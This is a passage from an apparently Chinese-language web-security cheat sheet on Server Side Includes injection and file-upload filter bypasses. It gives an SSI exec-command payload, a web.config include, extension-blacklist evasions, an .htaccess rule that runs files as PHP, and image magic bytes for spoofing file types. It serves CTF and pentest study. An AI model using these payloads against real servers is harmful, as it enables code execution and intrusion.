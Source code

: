 ## SSI (Server Side Includes)

- 通常放在`.shtml`, `.shtm`
- Execute Command
  - `<!--#exec cmd="command"-->`
- File Include
  - `<!--#include file="../../web.config"-->`
- Example
  - HITCON CTF 2018 - Why so Serials?

# 上傳漏洞

## Javascript檢測

- Burp Suite 中間修改
- disable javascript

## Bypass MIME Detection

- Burp修改Content-Type

## 黑名單判斷副檔名

- 大小寫繞過
  - pHP
  - AsP
- 空格 / 點 繞過
  - Windows特性
  - .php(空格)  // burp修改
  - .asp.
- php3457
  - .php3
  - .php4
  - .php5
  - .php7
  - .pht
  - .phtml
- .htaccess
  ```
  <FilesMatch "kai">
  SetHandler application/x-httpd-php
  </FilesMatch>
  ```
- 文件解析漏洞

## Magic Number

- jpg
  - `FF D8 FF E0 00 10 4A 46 49 46`
- gif
  - `47 49 36 38 39 61`
- png
  - `89 50 4E 47`
